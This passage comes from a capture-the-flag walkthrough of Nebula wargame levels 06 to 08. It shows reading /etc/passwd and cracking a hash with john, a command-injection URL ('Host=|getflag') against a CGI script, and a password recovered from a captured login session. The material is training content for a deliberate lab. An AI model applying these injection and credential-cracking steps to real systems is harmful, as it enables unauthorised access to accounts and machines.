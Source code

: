 
Checking passwd file:
```sh
sh-4.2$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```
Crack password with john and login as flag06 user:
```sh
root@kali:~# john  test  --show
flag06:hello:993:993::/home/flag06:/bin/sh

1 password hash cracked, 0 left
```

```sh
sh-4.2$ su flag06
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

## level07
[task description](https://exploit-exercises.lains.space/nebula/level07/)

Get the port for connection: 
```sh
sh-4.2$ cat thttpd.conf | grep port
# Specifies an alternate port number to listen on.
port=7007
# all hostnames supported on the local machine. See thttpd(8) for details.
```
Inspecting code and find parameter for cmd injection:

```sh
http://192.168.56.102:7007/index.cgi?Host=|getflag

You have successfully executed getflag on a target account
```

## level08
[task description](https://exploit-exercises.lains.space/nebula/level08/)

Inspecting pcap file and following TCP stream : 

```sh
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

..wwwbugs login: l.le.ev.ve.el.l8.8
..
Password: backdoor...00Rm8.ate
.
..
Login incorrect
wwwbugs login: 
```
